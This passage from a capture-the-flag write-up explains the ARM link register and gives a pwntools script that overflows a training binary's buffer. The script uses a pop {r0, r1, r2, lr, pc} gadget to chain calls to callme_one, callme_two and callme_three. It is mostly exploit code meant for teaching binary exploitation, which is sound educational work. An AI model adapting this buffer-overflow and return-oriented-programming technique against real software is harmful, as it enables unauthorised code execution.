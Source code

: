 ```python
log.info(p.recvall())
```

# ARMv5 (32 bit) architecture

The main difference here is that we need to set the LR register before calling the function, so when the function return it return to the
address stored into the LR register.

In arm LR is link register used to hold the return address for a function call.

```python
from pwn import *
context.binary = elf = ELF('./callme_armv5')

''' GADGET
0x00010870      07c0bde8       pop {r0, r1, r2, lr, pc}
'''

pop_r0_r1_r2_lr_pc = 0x00010870

callme_one = elf.sym['callme_one']
callme_two = elf.sym['callme_two']
callme_three = elf.sym['callme_three']
pwnme = elf.symbols['pwnme']

offset = 36


arg = p32(0xdeadbeef)+p32(0xcafebabe)+p32(0xd00df00d)
payload1 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_one)
payload2 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_two)  
payload3 = b'A'*offset + p32(pop_r0_r1_r2_lr_pc) + arg + p32(pwnme) + p32(callme_three) 

p = elf.process()
#p = gdb.debug(elf.path)

p.recv()

p.sendline(payload1)
# cress ctrl_c to continue the exploit
p.interactive()
p.sendline(payload2)
# cress ctrl_c to continue the exploit
p.interactive()
p.sendline(payload3)

log.info(p.recvall())
```

# mipsel (32 bit) architecture
